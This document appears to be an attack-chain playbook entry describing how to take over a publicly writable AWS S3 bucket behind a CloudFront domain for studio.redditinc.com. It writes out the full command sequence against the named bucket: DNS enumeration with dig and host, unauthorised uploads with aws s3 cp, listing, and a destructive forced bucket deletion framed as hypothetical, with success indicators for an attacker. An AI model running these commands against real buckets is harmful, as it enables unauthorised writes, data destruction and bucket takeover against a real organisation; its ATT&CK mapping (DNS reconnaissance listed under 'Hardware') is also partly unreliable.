

---
tags:
  - aws
  - s3
  - cloudfront
  - misconfiguration
  - access-control
  - bucket-takeover
type: attack_chain
tools:
  - '[[tools/dig]]'
  - '[[tools/host]]'
  - '[[tools/AWS-CLI]]'
tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
verified: false
platforms:
  - AWS
  - Cloud
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/DNS-Enumeration-to-Identify-S3-Bucket]]'
  - '[[procedures/Upload-Files-to-Misconfigured-S3-Bucket]]'
  - '[[procedures/List-Contents-of-S3-Bucket]]'
  - '[[procedures/Delete-S3-Bucket-for-Takeover]]'
step_count: 5
techniques:
  - '[[Hardware]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[External Remote Services]]'
updated_at: '2025-12-14T05:32:13.058Z'
description: >-
  Multi-stage attack exploiting a misconfigured AWS S3 bucket with public write
  access, discovered through DNS enumeration of a CloudFront-backed domain,
  allowing unauthorized file uploads, listings, and potential deletion.
skill_level: intermediate
impact_level: high
id: 55d1284e-746c-4695-ab07-0d9926ca5ef8
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Hardware]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[External Remote Services]]'
---
---

# S3 Bucket Takeover via Public Write Access on Reddit Studio Domain

Multi-stage attack chain demonstrating discovery and exploitation of a publicly writable AWS S3 bucket behind a CloudFront distribution for studio.redditinc.com.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/dig]]
- [[tools/host]]
- [[tools/AWS-CLI]]

### Target Environment

- AWS Cloud platform
- Services: S3, CloudFront
- No specific ports required; DNS and AWS API access needed

### Initial Access Requirements

- Internet access for DNS queries
- AWS credentials configured for CLI (exploits public write, so no auth needed for upload if public)
- No prior access to target; fully external

## Detailed Attack Procedures

### Step 1: Resolve Domain CNAME
procedure: [[procedures/DNS-Enumeration-to-Identify-S3-Bucket]]

**Objective**: Perform DNS lookup to reveal the CloudFront distribution CNAME for the target domain.

**Instructions**: Use [[commands/dig-studio-redditinc-cname]] to query the DNS records of studio.redditinc.com.

```bash
dig studio.redditinc.com
```

**Expected Output**: DNS response showing CNAME d326d3e45wj426.cloudfront.net.

**Success Indicators**:
- CNAME record to CloudFront distribution obtained
- Confirms domain points to AWS CDN

### Step 2: Query S3 Endpoint for Bucket Alias
procedure: [[procedures/DNS-Enumeration-to-Identify-S3-Bucket]]

**Objective**: Enumerate NS records on the S3 regional endpoint to uncover the underlying bucket name.

**Instructions**: Execute [[commands/host-ns-s3-endpoint]] on the derived S3 endpoint.

```bash
host -t ns d326d3e45wj426.s3.ap-east-1.amazonaws.com
```

**Expected Output**: NS records aliasing to s3-r-w.ap-east-1.amazonaws.com and AWS name servers.

**Success Indicators**:
- Bucket name s3-r-w identified
- Regional endpoint (ap-east-1) confirmed

### Step 3: Upload Test Files to Bucket
procedure: [[procedures/Upload-Files-to-Misconfigured-S3-Bucket]]

**Objective**: Exploit public write access by uploading arbitrary files to the S3 bucket.

**Instructions**: Use [[commands/aws-s3-cp-upload]] to copy local files like dinesh.jpg and dinesh.html to the bucket.

```bash
aws s3 cp dinesh.jpg s3://s3-r-w
aws s3 cp dinesh.html s3://s3-r-w
```

**Expected Output**: Upload confirmation messages, e.g., 'upload: dinesh.jpg to s3://s3-r-w/dinesh.jpg'.

**Success Indicators**:
- Files successfully uploaded without authentication errors
- Demonstrates public write permission

### Step 4: List Bucket Contents
procedure: [[procedures/List-Contents-of-S3-Bucket]]

**Objective**: Verify access by listing all objects in the bucket, including uploaded files.

**Instructions**: Run [[commands/aws-s3-ls-list]] to enumerate bucket contents.

```bash
aws s3 ls s3://s3-r-w
```

**Expected Output**: Directory listing showing uploaded files (dinesh.jpg, dinesh.html) and any existing non-sensitive content.

**Success Indicators**:
- Uploaded files visible in listing
- Confirms public list permission

### Step 5: Hypothetical Bucket Deletion
procedure: [[procedures/Delete-S3-Bucket-for-Takeover]]

**Objective**: Demonstrate potential for complete bucket takeover by deleting contents and the bucket itself.

**Instructions**: Hypothetically execute [[commands/aws-s3-rb-delete]] to remove the bucket.

```bash
aws s3 rb s3://s3-r-w --force
```

**Expected Output**: Bucket removal confirmation, e.g., 'remove bucket: s3-r-w'.

**Success Indicators**:
- Bucket and contents deleted (if executed)
- Enables attacker to recreate and claim the bucket name

## Attack Chain Summary

### Key Achievements

1. Discovered hidden S3 bucket via DNS enumeration of CloudFront CNAME
2. Exploited public write access to upload arbitrary files
3. Verified control through listing and potential deletion, leading to takeover risk

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Hardware]] Gather Victim Host Information: DNS
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[External Remote Services]] External Remote Services

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
